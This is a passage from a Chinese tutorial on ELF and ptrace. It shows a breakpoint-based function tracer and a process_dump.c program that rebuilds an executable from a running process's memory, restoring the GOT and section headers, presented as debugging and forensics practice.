    if((fd = open(cmdline, O_RDONLY)) < 0)
    {
        perror("open");
        exit(-1);
    }
    if(read(fd, path, 512) < 0)
    {
        perror("read");
        exit(-1);
    }
    if((p = strdup(path)) == NULL)
    {
        perror("strdup");
        exit(-1);
    }
    return p;
}

void sighandler(int sig)
{
    printf("\nCaught SIGINT: Detaching from process: %d\n", global_pid);
    if(ptrace(PTRACE_DETACH, global_pid, NULL, NULL) < 0)
    {
        perror("PTRACE_DETACH");
        exit(-1);
    }
    exit(0);
}

int main(int argc, char *argv[], char **envp)
{
    printf("Usage: %s [-e <executable> / -p <pid>] -f <function>\n", argv[0]);
    char oc;
    handle_t h;
    memset(&h, 0, sizeof(handle_t));
    int mode;
    int pid;
    signal(SIGINT, sighandler);
    while((oc = getopt(argc, argv, "e:p:f:")) != -1)
    {
        switch(oc)
        {
            case 'e':
                if((h.exec = strdup(optarg)) == NULL)
                {
                    perror("strdup");
                    exit(-1);
                }
                mode = EXE_MODE;
            break;
            case 'p':
                pid = atoi(optarg);
                char *exec = get_exec(pid);
                if((h.exec = strdup(exec)) == NULL)
                {
                    printf("Unable to retrive executable path for pid: %d\n", pid);
                    perror("strdup");
                    exit(-1);
                }
                mode = PID_MODE;
            break;
            case 'f':
                if((h.symname = strdup(optarg)) == NULL)
                {
                    printf("Please specific a function name by option -f\n");
                    perror("strdup");
                    exit(-1);
                }
            break;
            default:
            printf("Undeclared option.\n");
            exit(0);
            break;
        }
    }
    /* Resovle the executalbe file */
    int fd;
    if((fd = open(h.exec, O_RDONLY)) < 0)
    {
        perror("open");
        exit(-1);
    }
    struct stat st;
    if(fstat(fd, &st) < 0)
    {
        perror("fstat");
        exit(-1);
    }
    h.mem = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
    if(h.mem == MAP_FAILED)
    {
        perror("mmap");
        exit(-1);
    }
    h.ehdr = (Elf64_Ehdr *)h.mem;
    h.phdr = (Elf64_Phdr *)(h.mem + h.ehdr -> e_phoff);
    h.shdr = (Elf64_Shdr *)(h.mem + h.ehdr -> e_shoff);
    
    if(h.mem[0] != 0x7f && strcmp((char *)&h.mem[1], "ELF"))
    {
        printf("%s is not an ELF format file\n", h.exec);
        exit(-1);
    }
    if(h.ehdr -> e_type != ET_EXEC)
    {
        printf("%s is not an ELF executable file\n", h.exec);
        exit(-1);
    }
    if(h.ehdr -> e_shstrndx == 0 || h.ehdr -> e_shoff == 0 || h.ehdr -> e_shnum == 0)
    {
        printf("Section header table not found\n");
        exit(-1);
    }
    if((h.symaddr = look_up_symbol(&h, h.symname)) == 0)
    {
        printf("Unable to find symbol: %s not found in executable\n", h.symname);
        exit(-1);
    }
    close(fd);

    if(mode == EXE_MODE)
    {
        if((pid = fork()) < 0)
        {
            perror("fork");
            exit(-1);
        }
        if(pid == 0)
        {
            if(ptrace(PTRACE_TRACEME, pid, NULL, NULL) < 0)
            {
                perror("PTRACE_TRACEME");
                exit(-1);
            }
            char *args[2];
            args[1] = h.exec;
            args[2] = NULL;
            execve(h.exec, args, envp);
            exit(0);
        }
        
    }else
    {
        if(ptrace(PTRACE_ATTACH, pid, NULL, NULL) < 0)
        {
            perror("PTRACE_ATTACH");
            exit(-1);
        }
    }
    global_pid = pid;
    int status;
    wait(&status);
    printf("Beginning analysis of pid: %d at %lx\n", pid, h.symaddr);
    /* Read 8 bytes at the push instruction of h.symaddr */
    long orig, trap;
    if((orig = ptrace(PTRACE_PEEKTEXT, pid, h.symaddr + 4, NULL)) == -1)
    {
        perror("PTRACCE_PEEKTEXT");
        exit(-1);
    }
    /* Set a breakpoint */
    trap = (orig & ~0xff) | 0xcc;
    if(ptrace(PTRACE_POKETEXT, pid, h.symaddr + 4, trap) < 0)
    {
        perror("PTRACE_POKETEXT");
        exit(-1);
    }

    /* Begin trace process */
trace:
    if(ptrace(PTRACE_CONT, pid, NULL, NULL) < 0)
    {
        perror("PTRACE_CONT");
        exit(-1);
    }
    wait(&status);
    /* If we receive a SIGTRAP then we presumably hit a breakpoint instruction.
     * In which case we will print out the current register state */
    if(WIFSTOPPED(status) && WSTOPSIG(status) == SIGTRAP)
    {
        printf("\nExecutable %s(pid: %d) has hit breakpoint 0x%lx\n", h.exec, pid, h.symaddr);
        if(ptrace(PTRACE_GETREGS, pid, NULL, &h.pt_reg) < 0)
        {
            perror("PTRACE_GETREGS");
            exit(-1);
        }
        printf("%%rax: 0x%llx\n%%rbx: 0x%llx\n%%rcx: 0x%llx\n%%rdx: 0x%llx\n"
                "%%rdi: 0x%llx\n%%rsi: 0x%llx\n%%rsp: 0x%llx\n%%rip: 0x%llx\n",
                h.pt_reg.rax, h.pt_reg.rbx, h.pt_reg.rcx, h.pt_reg.rdx,
                h.pt_reg.rdi, h.pt_reg.rsi, h.pt_reg.rsp, h.pt_reg.rip);
        printf("Hit any key to continue: ");
        getchar();
        /* Restart the function as it should be */
        if(ptrace(PTRACE_POKETEXT, pid, h.symaddr + 4, orig) < 0)
        {
            perror("PTRACE_POKETEXT");
            exit(-1);
        }
        h.pt_reg.rip = h.pt_reg.rip - 1;
        if(ptrace(PTRACE_SETREGS, pid, NULL, &h.pt_reg) < 0)
        {
            perror("PTRACE_SETREGS");
            exit(-1);
        }
        if(ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL) < 0)
        {
            perror("PTRACE_SINGELSTEP");
            exit(-1);
        }
        /* Execute a single instruction and stop */
        wait(NULL);
        if(ptrace(PTRACE_POKETEXT, pid, h.symaddr + 4, trap))
        {
            perror("PTRACE_POKETEXT");
            exit(-1);
        }
        goto trace;
    }
    if(WIFEXITED(status))
    {
        printf("Completed tracing pid: %d\n", pid);
        exit(0);
    }
}
```

程序的运行结果如下图所示：



上面是对可执行文件的追踪结果。



这个则是对运行中的进程的追踪结果，可以发现当tracer程序输出时，被追踪的程序也暂停了运行，这是因为遇到了中断指令。

### 进程镜像重建*

*这部分内容对于理解ELF格式以及"ptrace"系统调用的使用方法有着很大的帮助。*

进程镜像重建是指将一个运行中的进程的内存镜像重建成对应的可执行文件，也就是将进程从内存中dump下来，生成一个新的可执行文件，这个新的可执行文件与该进程对应的二进制文件应该是一样的。

这部分的内容相当于是一个实战训练的例子，可以检验自己对ELF格式以及ptrace的掌握程度。当然，在发现系统中运行的某个可以程序时，此类取证分析工作就显得很有必要。

下面是重建可执行文件的挑战：

- 将进程PID作为参数，将该PID对应的进程镜像重建成对应的可执行文件
- 构建节头的最小集，以便可以使用objdump和gdb这样的工具进行更精确的分析

在重建可执行文件时会面临的挑战：

1. PLT/GOT的完整性：前面介绍过，GOT中会存放共享库函数在内存中的实际地址，这个地址是由动态链接器在运行时解析出来的。所以在重建可执行文件时，需要使用原始的PLT存根地址替换掉这些地址。
2. 添加节头表：尝试为下面的节创建节头：.interp, .note, .text, .dynamic, .got.plt, .dynsym 以及 .dynstr。

下面会介绍重建可执行文件的过程：

**#1. 定位ELF文件头**

对于不同的系统，这个过程会有不同的解决方法，但是主要的方法都是通过/proc/\<PID\>/maps文件来查看运行中的进程的镜像信息。

在 *Learning Linux Binary Analysis* 一书中，ELF文件头位于text段中，并且text段就在进程镜像的起始地址处。

从前面的例子中也可以看到，一般ELF文件头就在进程镜像的起始地址，所以只需要找到进程的基地址（进程镜像的起始地址）就能找到ELF文件头。

但是在本文档中，使用的系统的信息如下：

```tex
yzh@ubuntu:~/workstation/process_tracing$ uname -a
Linux ubuntu 5.13.0-35-generic #40~20.04.1-Ubuntu SMP Mon Mar 7 09:18:32 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

在本文中，可以先通过`readelf -l <object>`命令来查看目标文档的部分结果如下：

```tex
yzh@ubuntu:~/workstation/process_tracing$ readelf -l dummy

Elf file type is EXEC (Executable file)
Entry point 0x401070
There are 13 program headers, starting at offset 64

Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  PHDR           0x0000000000000040 0x0000000000400040 0x0000000000400040
                 0x00000000000002d8 0x00000000000002d8  R      0x8
  INTERP         0x0000000000000318 0x0000000000400318 0x0000000000400318
                 0x000000000000001c 0x000000000000001c  R      0x1
      [Requesting program interpreter: /lib64/ld-linux-x86-64.so.2]
  LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
                 0x0000000000000508 0x0000000000000508  R      0x1000
  LOAD           0x0000000000001000 0x0000000000401000 0x0000000000401000
                 0x0000000000000245 0x0000000000000245  R E    0x1000
```

也就是说，text段(LOAD segments whose flags = R E)并不在进程镜像的起始地址，而进程镜像的起始地址处加载的段只具有读权限，并且包含PHDR（程序头表段）和INTERP（动态链接器地址）。

注意到这里的PHDR段的偏移量为0x40，这是因为文件的ELF头大的大小是0x40字节的，回顾前面介绍的ELF格式，程序头是紧跟在ELF文件头后面的，所以可以判断ELF头的地址就在第一个可加载段中，尽管这个段并不是text段。所以我们这里依然是要找进程的基地址（也就是进程镜像的起始地址）而不是进程的text段的地址。

这里介绍使用 `/proc/<PID>/maps`来查找进程的基地址的例子：



所以可以通过在程序中读取 /proc/\<PID\>/maps文件的方法找到对应进程的基地址，基地址就是这个文件的第一行中的数据。

**#2. 定位程序头表**

找到了目标进程的基地址后，可以使用`ptrace()`中的PTRACE_PEEKTEXT请求将进程镜像中的第一个段进行读取到一个`uint8_t`类型的指针(declared as "mem")指向的地址处。

然后可以重建ELF文件头：

`Elf64_Ehdr *ehdr = (Elf64_Ehdr *)mem;`

有了文件头就可以找到程序头表了：

`Elf64_Phdr *phdr = (Elf64_Phdr *)&(mem + ehdr -> e_phoff);`

> *可能的BUG*
>
> 上面使用`readelf -l <object>`分析目标进程的基地址时，得出的结论是ELF头在目标进程镜像中的第一个段中。
>
> 但是值得注意的一个点是，如果直接将基地址赋给了`uint8_t *mem`的话，执行下面的语句时会出现"Segmentation fault"：
>
> 这是因为==当前的进程没有权限访问目标进程的地址空间==。
>
> 所以解决的方法是，使用PTRACE_PEEKTEXT将目标进程的给定地址范围的内容读取到当前进程划分的一块空间中。

在重建了文件头和程序头表后，后面的操作就相对比较容易了。

**#3. 定位数据段**

在拿到了程序头表后，可以用下面的代码来查找数据段：

```c
for(i = 0; i < ehdr -> e_phnum; i++)
{
	if(phdr[i].p_type == PT_LOAD && phdr[i].p_flags == (PF_W | PF_R))
    {
    	printf("Find the data segment at 0x%lx\n", phdr[i].p_vaddr);
   	}
}
```

找了了数据段在目标进程镜像中的虚拟地址后，可以读取数据段中的内容。

**#4. 定位数据段中的动态段以及GOT**

可以使用和上面一样的方法找到动态段：

```c
for(i = 0; i < ehdr -> e_phnum; i++)
{
	if(phdr[i].p_type == PT_DYNAMIC)
	{
		printf("Find the dynamic segment at 0x%lx\n", phdr[i].p_vaddr);
	}
}
```

这里需要注意的是，通过`readelf -l <object>`命令可以发现，==动态段实际上是在数据段中的==。

这里需要补充一些关于动态段的内容，动态段实际上也是一个结构体数组，其结构体的源码如下：

```c
typedef struct {
	Elf64_Sxword d_tag;
	union {
		Elf64_Xword d_val;
		Elf64_Addr d_ptr;
	}d_un;
} Elf64_Dyn;
extern Elf64_Dyn _DYNAMIC[];
```

结构体中各个成员的含义如下：

- `d_tag`：表示这个条目如何解释，这里介绍一些比较常用的取值：
  - DT_NULL：标志动态段的结束
  - DT_PLTRELSZ：表示这个条目存放PLT重定位条目的大小
  
  - DT_PLTGOT：表示这个条目存放PLT或者GOT的地址
  - DT_STRTAB：表示这个条目存放字符串表的地址
  - DT_SYMTAB：表示这个条目存放符号表的地址
  - DT_PLTREL：PLT重定位条目的类型(DT_REL或者DT_RELA)
  
- `d_val`：这个成员用于存放整数值

- `d_ptr`：这个成员用于存放程序的虚拟地址

使用命令`readelf -d <object>`可以查看目标文件的动态段，如下：



更多细节可以参考手册"elf(5)"。

**#5. 恢复GOT**

恢复GOT的过程就是将库函数的存根地址放回GOT中，具体的实现过程可以参考下面的源代码。

这是因为动态库函数的地址每次运行都会是不同的，所以如果dump下来的可执行文件试图使用上一次使用过的库函数地址来调用该库函数时，将会出现Segmentation fault，而想要找到正确的库函数地址则需要通过动态链接器进行解析，为此，需要将plt存根的地址放回到GOT中。

这里需要注意的是，除了用于保存库函数地址的GOT条目，GOT[1]和GOT[2] 也需要还原为0x0，这是因为这两个条目中的内容也会因为不同的运行而不同。

**#6. 选择性地重建节头表，并将text段和data段写入磁盘**

注意，由于程序的节头表对于程序的运行不是必需的，所以在运行时不会被加载到内存中。

在下面的例子中，会重建节头表的一部分。


同样地，这里先介绍一些会使用到的工具：

**malloc()**

函数原型：

```c
#include <stdlib.h>
void *malloc(size_t size);
void free(void *ptr);
```

`malloc()`函数会在进程镜像的堆区(Heap)中分配 *size* 个字节，然后返回指向该分配区域的指针。==分配的区域是没有被初始化的==。如果 *size* 的值为0，那么该函数要么返回一个NULL，要么就返回一个唯一的指针，以便后面的`free()`函数能够顺利执行。

而`free()`函数的作用是释放 *ptr* 指向的地址空间，这块空间是由 `malloc()` 函数分配的。如果`free(ptr)` 之前已经被调用过了，那么会出现未定义的错误，如果 *ptr* 是NULL，那么就不会执行任何操作。

更多细节可以参考手册"malloc(3)"。

**memcpy()**

函数原型：

```c
#include <string.h>
void *memcpy(void *restrict dest, const void *restrict src, size_t n);
```

`memcpy()`函数从 *src* 指针指向的地址空间中复制 *n* 个字节到 *dest* 指针指向的地址空间。这里的两个地址空间不可以重叠。

该函数会返回一个指向 *dest* 指针变量的指针。

更多细节可以参考手册"memcpy(3)"。

**strtok()**

函数原型：

```c
#include <string.h>
char *strtok(char *restrict str, const char *restrict delim);
```

`strtok()`函数用于将字符串按照一定的分隔符分割成若干个子字符串。

在第一次调用该函数的时候，需要将待切割的字符串放在 *str* 参数中，而在随后的每次调用都会切割相同的字符串，并且 *str* 为NULL。这里的分割实际上并没有修改 *str* 本身的值，而是根据 *delim* 将原来的字符串分成若干的"token"。

在参数 *delim* 中指定了切割字符串的分隔符。

每次调用该函数都会返回一个指向包含下一个“token” 的字符串的指针，如果没有剩余的“token”，那么这个函数会返回NULL。

 更多细节可以参考手册“strtok(3)”。

**strtol()**

函数原型：

```c
#include <stdlib.h>
long strtol(const char *restrict nptr,
                  char **restrict endptr, int base);
long long strtoll(const char *restrict nptr,
                  char **restrict endptr, int base);
```

`strtol()`函数会根据 *base* 指定的基数，将 *nptr* 中的字符串转换成对应的long型整数。

这里的字符串可以是有任意长度的空格前缀，并且有一个 '+' 或者 '-' 的符号位。如果基数为16，那么这个字符串可以用于一个 "0x" 或者"0X" 的前缀。

如果 *endptr* 不为空，那么该函数会将 *nptr* 中的第一个有效字符的地址存放在 `endptr` 中。

更多细节可以参考手册"strtol(3)"。

**write()**

函数原型：

```c
#include <unistd.h>
ssize_t write(int fd, const void *buf, size_t count);
```

`write()`函数会从 *buf* 参数指定的地址处取出 *count* 个字节写入到 *fd* 指定的文件中。

如果函数执行中没有出现错误，那么该函数会返回实际写入的字节数；否则，如果出现错误，那么会返回-1。

如果想让`write()`函数在文件指定的偏移量位置处写入，那么就需要使用`lseek()`函数；或者使用O_APPEND模式打开文件，使写入的内容自动放在文件的末尾处。

更多细节可以参考手册"write(2)"。

**lseek()**

函数原型：

```c
#include <unistd.h>
off_t lseek(int fd, off_t offset, int whence);
```

`lseek()`函数会将 *fd* 指定的文件的偏移量根据 *offset* 和 *whence* 参数进行重置。

具体的重置方法如下，*whence* 可以有以下取值：

- SEEK_SET：将文件的偏移量设置为 *offset* 字节处
- SEEK_CUR：将文件的偏移量设置为距离当前偏移量 *offset* 字节处
- SEEK_END：将文件的偏移量设置为距离文件末尾 *offset* 字节处

一般使用`write()`函数写入文件时都需要使用 `lseek()` 函数来设置文件的偏移量。

更多细节可以参考手册“lseek(2)”。

**String Table**

ELF文件中的字符串表实际上是一个char 类型的指针，而不是像`main()`函数的 *argv* 一样是一个二维的指针。

这里将会介绍如何使用一个char 类型的指针存储多个字符串。

```c
char strtab[10] = {'a', 'b', '\0', 'c', 'd', '\0', 'e', 'f', 'g', '\0'};
printf("%s\n", &strtab[0]);
printf("%s\n", &strtab[3]);
printf("%s\n", &strtab[6]);
```

运行上面的片段就可以知道ELF格式文件中的字符串表是如何存储的了。

#### Process dump

下面的代码演示如何实现从进程的内存镜像重建对应的可执行文件：

```c
/* process_dump.c */
/* gcc -0 process_dump process_dump.c */
/* Usage: ./process_dump <pid> <file_name> */
/* target process should be compiled with -no-pie */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <elf.h>
#include <string.h>
#include <errno.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <sys/types.h>
#include <sys/mman.h>

/* size of _init(), which is followed by section .plt */
#define INIT_SIZE 0x20
/* size of plt entry */
#define PLT_SIZE 0x10
/* number of section header table entries we gonna to rebuild */
#define SHE_NUM 12

typedef struct handle{
    pid_t pid;              /* pid of target process */
    char *file_name;        /* name of dumped file */

    uint8_t *mem;           /* dump the process image to there,
                            *  and finally write it to file. 
                            *  it's a mapped area, 
                            *  we will modify the dumpped image there.  */
    
    Elf64_Addr base_addr;    /* blow are some context of target process */
    Elf64_Ehdr *ehdr;
    Elf64_Phdr *phdr;
    Elf64_Shdr *shdr;
    Elf64_Dyn *dyn;
    Elf64_Addr *GOT;
    char *shstrtab;

    int plt_entries;         /* number of plt entries */
}handle_t;

typedef struct pt_load{
    int text_index;
    int data_index;
    int dynamic_index;
    int interp_index;
}pt_load_t;

unsigned long get_baseaddr(pid_t);
int read_segment(pid_t, void *, const void *, size_t);
void rebuild_shtable(handle_t *, const pt_load_t);

/* Get the base address by pid */
unsigned long get_baseaddr(pid_t pid)
{
    char cmd[255];
    char buffer[64];
    snprintf(cmd, 255, "/proc/%d/maps", pid);
    FILE *fd;
    if((fd = fopen(cmd, "r")) < 0)
    {
        perror("fopen");
        exit(-1);
    }
    if(fgets(buffer, 64, fd) < 0)
    {
        perror("fgets");
        exit(-1);
    }
    fclose(fd);
    char *str = strtok(buffer, "-");
    return strtol(str, NULL, 16);
}

/* Read bytes from the process image */
int read_segment(pid_t pid, void *dst, const void *src, size_t len)
{   
    int time = len / sizeof(long);
    int i;
    void *s = (void *)src;
    void *d = dst;
    for(i = 0; i < time; i++)
    {
        long buf;
        if((buf = ptrace(PTRACE_PEEKTEXT, pid, s, NULL)) == -1)
        {
            printf("%d\n",i);
            perror("PTRACE_PEEKTEXT");
            return -1;
        }
        memcpy(d, &buf, sizeof(long));
        s += sizeof(long);
        d += sizeof(long);
    } 
    return 0;
}

int main(int argc, char *argv[], char **envp)
{
    /* Resolve arguments */
    if(argc != 3)
    {
        fprintf(stderr, "Usage: %s <pid> <file_name>.\n", argv[0]);
        exit(-1);
    }
    handle_t h;
    h.pid = atoi(argv[1]);
    h.file_name = strdup(argv[2]);
    
    /* Attach to target process */
    int status;
    if(ptrace(PTRACE_ATTACH, h.pid, NULL, NULL) < 0)
    {
        perror("PTRACE_ATTACH");
        exit(-1);
    }
    wait(&status);

    h.base_addr = (Elf64_Addr)get_baseaddr(h.pid);
    
    /* Dump the elf header at first */
    h.mem = malloc(sizeof(Elf64_Ehdr));
    if(h.mem == NULL)
    {
        perror("mmap");
        exit(-1);
    }

    if(read_segment(h.pid, h.mem, (void *)h.base_addr, sizeof(Elf64_Ehdr)) == -1)
    {
        printf("Failed to load the elf header of target process.\n");
        exit(-1);
    }
    h.ehdr = (Elf64_Ehdr *)h.mem;
    size_t ph_size = h.ehdr->e_phentsize * h.ehdr->e_phnum;
    free(h.mem);
    
    /* Referring to elf header, dump the program header then */
    h.mem = malloc(sizeof(Elf64_Ehdr) + ph_size);
    if(read_segment(h.pid, h.mem, (void *)h.base_addr, sizeof(Elf64_Ehdr) + ph_size) == -1)
    {
        printf("Failed to load the elf header of target process.\n");
        exit(-1);
    }
    h.ehdr = (Elf64_Ehdr *)h.mem;
    h.phdr = (Elf64_Phdr *)&h.mem[h.ehdr->e_phoff];

    /* At this stage, we obtained the program header information
    * the next step is to dump the hole process image. */
    pt_load_t ptload;
    int i;
    for(i = 0; i < h.ehdr -> e_phnum; i++)
    {
        if(h.phdr[i].p_type == PT_LOAD)
        {
            printf("[+]Find a loadable segment at 0x%lx\n", h.phdr[i].p_vaddr);
            if(h.phdr[i].p_flags == PF_R | PF_X)
                ptload.text_index = i;
            if(h.phdr[i].p_flags == PF_R | PF_W)
                ptload.data_index = i;
        }
        if(h.phdr[i].p_type == PT_DYNAMIC)
            ptload.dynamic_index = i;
        if(h.phdr[i].p_type == PT_INTERP)
            ptload.interp_index = i;
    }

    /* Dump all of the loadable segment. */
    /* Note that data segment is always the last segment in memory */
    uint64_t total_length = h.phdr[ptload.data_index].p_vaddr + 
        		h.phdr[ptload.data_index].p_memsz - h.base_addr;
    free(h.mem);
    h.mem = malloc(total_length);
    if(h.mem == NULL)
    {
        
        perror("mmap");
        exit(-1);
    }
    if(read_segment(h.pid, h.mem, (void *)h.base_addr, total_length) == -1)
    {
        printf("Failed to dump image of target process.\n");
        exit(-1);
    }
    h.ehdr = (Elf64_Ehdr *)h.mem;
    h.phdr = (Elf64_Phdr *)&(h.mem[h.ehdr -> e_phoff]);
    ptrace(PTRACE_DETACH, h.pid, NULL, NULL);

    /* Modify GOT */
    
    /* locate the dynamic segment */
    size_t dyn_offset = h.phdr[ptload.dynamic_index].p_vaddr - h.base_addr;
    h.dyn = (Elf64_Dyn *)&h.mem[dyn_offset];
    
    uint32_t pltrelsize;
    uint32_t pltreltype;
    uint32_t relaent;
    uint32_t relent;
    Elf64_Addr plt;
    for(i = 0; h.dyn[i].d_tag != DT_NULL; i++)
    {
        switch (h.dyn[i].d_tag)
        {
        case DT_PLTGOT:{
            int offset = h.dyn[i].d_un.d_ptr - h.base_addr;
            h.GOT = (Elf64_Addr *)&h.mem[offset];
            break;
        }
        case DT_PLTREL:
            pltreltype = h.dyn[i].d_un.d_val;
            break;
        case DT_PLTRELSZ:
            pltrelsize = h.dyn[i].d_un.d_val;
            break;
        case DT_RELAENT:
            relaent = h.dyn[i].d_un.d_val;
            break;
        case DT_RELENT:
            relent = h.dyn[i].d_un.d_val;
            break;
        case DT_INIT:
            plt = h.dyn[i].d_un.d_ptr + INIT_SIZE;
            break;
        case DT_DEBUG:
            h.dyn[i].d_un.d_val = 0x0;
            break;
        }
    }
    h.plt_entries = pltrelsize / (pltreltype == DT_RELA ? relaent : relent);
    
    printf("GOT was dumpped to 0x%lx\n", (long)h.GOT);
    printf("Totally %d PLT entries are found.\n", h.plt_entries);

    /* recover the GOT[1] and GOT[2], since they're runtime resolved */
    for(i = 1; i < 3; i++)
        h.GOT[i] = 0x0;

    for(i = 0; i < h.plt_entries; i++)
    {
        printf("[+] Patch the #%d GOT entry: \n", i + 1);
        printf("Change 0x%lx to 0x%lx.\n", h.GOT[i + 3], plt + 0x10 * (i + 1));
        h.GOT[i + 3] = plt + (i + 1) * PLT_SIZE;
    }
    printf("GOT have been patched.\n");

    /* write the process image to target file */
    int fd = open(h.file_name, O_RDWR);
    if(fd < 0)
    {
        perror("open");
        exit(-1);
    }
    
    /* Rebuild the section header table (Optional) */
    printf("Rebuild the section header table...\n");
    rebuild_shtable(&h, ptload);
    
    /* Write the reconstructed image to file */
    for(i = 0; i < h.ehdr -> e_phnum; i++)
    {
        if(h.phdr[i].p_type == PT_LOAD)
        {
            size_t mem_offset = h.phdr[i].p_vaddr - h.base_addr;
            if(lseek(fd, h.phdr[i].p_offset, SEEK_SET) < 0)
            {
                perror("lseek");
                exit(-1);
            }
            if(write(fd, &h.mem[mem_offset], h.phdr[i].p_filesz) < 0)
            {
                perror("write");
                exit(-1);
            }
        }
    }
    if(lseek(fd, h.shdr[11].sh_offset, SEEK_SET) < 0)
    {
        perror("lseek");
        exit(-1);
    }
    if(write(fd, h.shstrtab, 90) < 0)
    {
        perror("write");
        exit(-1);
    }
    if(lseek(fd, h.ehdr->e_shoff, SEEK_SET) < 0)
    {
        perror("lseek");
        exit(-1);
    }
    if(write(fd, h.shdr, h.ehdr->e_shentsize * h.ehdr->e_shnum) < 0)
    {
        perror("write");
        exit(-1);
    }

    printf("Target process have been dumped to \"%s\"\n", h.file_name);
    close(fd);
    free(h.mem);
    free(h.shdr);
    free(h.shstrtab);
    exit(0);
}

void rebuild_shtable(handle_t *h, const pt_load_t p)
{
    int i;
    uint32_t relasz;
    uint32_t relaent;
    uint32_t syment;

    h -> shdr = malloc(sizeof(Elf64_Shdr) * SHE_NUM);
    if(h -> shdr == NULL)
    {
        perror("mmap");
        exit(-1);
    }

    /* NULL section header */
    h->shdr[0].sh_name = 0;
    h->shdr[0].sh_type = SHT_NULL;
    h->shdr[0].sh_flags = 0;
    h->shdr[0].sh_addr = 0;
    h->shdr[0].sh_offset = 0;
    h->shdr[0].sh_size = 0;
    h->shdr[0].sh_link = 0;
    h->shdr[0].sh_info = 0;
    h->shdr[0].sh_addralign = 0;
    h->shdr[0].sh_entsize = 0;

    /* .interp section header */
    h->shdr[1].sh_name = 1;
    h->shdr[1].sh_type = SHT_PROGBITS;
    h->shdr[1].sh_flags = SHF_ALLOC;
    h->shdr[1].sh_addr = h->phdr[p.interp_index].p_vaddr;
    h->shdr[1].sh_offset = h->phdr[p.interp_index].p_offset;
    h->shdr[1].sh_size = h->phdr[p.interp_index].p_filesz;
    h->shdr[1].sh_link = 0;
    h->shdr[1].sh_info = 0;
    h->shdr[1].sh_addralign = h->phdr[p.interp_index].p_align;
    h->shdr[1].sh_entsize = 0;

    /* .dynamic section header */
    h -> shdr[4].sh_name = 25;
    h -> shdr[4].sh_type = SHT_DYNAMIC;
    h -> shdr[4].sh_flags = SHF_WRITE | SHF_ALLOC;
    h -> shdr[4].sh_addr = h -> phdr[p.dynamic_index].p_vaddr;
    h -> shdr[4].sh_offset = h -> phdr[p.dynamic_index].p_offset;
    h -> shdr[4].sh_size = h -> phdr[p.dynamic_index].p_memsz;
    h -> shdr[4].sh_link = 3;
    h -> shdr[4].sh_info = 0;
    h -> shdr[4].sh_addralign = h -> phdr[p.dynamic_index].p_align;
    h -> shdr[4].sh_entsize = sizeof(Elf64_Dyn);
    
    for(i = 0; h -> dyn[i].d_tag != DT_NULL; i++)
    {
        switch (h->dyn[i].d_tag)
        {
            /* .dynstr section header */
        case DT_STRTAB:
            h -> shdr[3].sh_name = 17;
            h -> shdr[3].sh_type = SHT_STRTAB;
            h -> shdr[3].sh_flags = SHF_ALLOC;
            h -> shdr[3].sh_addr = h -> dyn[i].d_un.d_ptr;
            h -> shdr[3].sh_offset = h -> dyn[i].d_un.d_ptr - h -> base_addr;
            h -> shdr[3].sh_link = 0;
            h -> shdr[3].sh_info = 0;
            h -> shdr[3].sh_addralign = 1;
            h -> shdr[3].sh_entsize = 0;
            break;
        case DT_STRSZ:
            h -> shdr[3].sh_size = h -> dyn[i].d_un.d_val;
            break;
            /* .dynsym section header */
        case DT_SYMTAB:
            h -> shdr[2].sh_name = 9;
            h -> shdr[2].sh_type = SHT_DYNSYM;
            h -> shdr[2].sh_flags = SHF_ALLOC;
            h -> shdr[2].sh_addr = h -> dyn[i].d_un.d_ptr;
            h -> shdr[2].sh_offset = h -> dyn[i].d_un.d_ptr - h -> base_addr;
            h -> shdr[2].sh_link = 3;
            h -> shdr[2].sh_info = 1;
            h -> shdr[2].sh_addralign = 0x8;
            h -> shdr[2].sh_entsize = 0x18;
            break;
        case DT_RELAENT:
            relaent = h -> dyn[i].d_un.d_val;
            h -> shdr[6].sh_size = relaent * h ->plt_entries;
            break;
        case DT_RELASZ:
            h -> shdr[5].sh_size = h -> dyn[i].d_un.d_val;
            relasz = h -> dyn[i].d_un.d_val;
            break;
        case DT_SYMENT:
            syment = h -> dyn[i].d_un.d_val;
            break;
            /* .text section header */
        case DT_FINI:
            h -> shdr[8].sh_name = 63;
            h -> shdr[8].sh_type = SHT_PROGBITS;
            h -> shdr[8].sh_flags = SHF_ALLOC | SHF_EXECINSTR;
            h -> shdr[8].sh_addr = h -> ehdr -> e_entry;
            h -> shdr[8].sh_offset = h -> ehdr -> e_entry - h -> base_addr;
            h -> shdr[8].sh_size = h -> dyn[i].d_un.d_ptr - h -> ehdr -> e_entry;
            h -> shdr[8].sh_link = 0;
            h -> shdr[8].sh_info = 0;
            h -> shdr[8].sh_addralign = 0x10;
            h -> shdr[8].sh_entsize = 0;
            break;
            /* .rela.dyn section header */
        case DT_RELA:
            h -> shdr[5].sh_name = 34;
            h -> shdr[5].sh_type = SHT_RELA;
            h -> shdr[5].sh_flags = SHF_ALLOC;
            h -> shdr[5].sh_addr = h -> dyn[i].d_un.d_ptr;
            h -> shdr[5].sh_offset = h -> dyn[i].d_un.d_ptr - h -> base_addr;
            h -> shdr[5].sh_link = 2;
            h -> shdr[5].sh_info = 0;
            h -> shdr[5].sh_addralign = 0x8;
            h -> shdr[5].sh_entsize = 0x18;
            break;
            /* .rela.plt section header */
        case DT_JMPREL:
            h -> shdr[6].sh_name = 44;
            h -> shdr[6].sh_type = SHT_RELA;
            h -> shdr[6].sh_flags = SHF_ALLOC | SHF_INFO_LINK;
            h -> shdr[6].sh_addr = h -> dyn[i].d_un.d_ptr;
            h -> shdr[6].sh_offset = h -> dyn[i].d_un.d_ptr - h -> base_addr;
            h -> shdr[6].sh_link = 2;
            h -> shdr[6].sh_info = 7;
            h -> shdr[6].sh_addralign = 0x8;
            h -> shdr[6].sh_entsize = 0x18;
            break;
            /* .plt.got section header */
        case DT_PLTGOT:
            h -> shdr[7].sh_name = 54;
            h -> shdr[7].sh_type = SHT_PROGBITS;
            h -> shdr[7].sh_flags = SHF_ALLOC | SHF_WRITE;
            h -> shdr[7].sh_addr = h -> dyn[i].d_un.d_ptr;
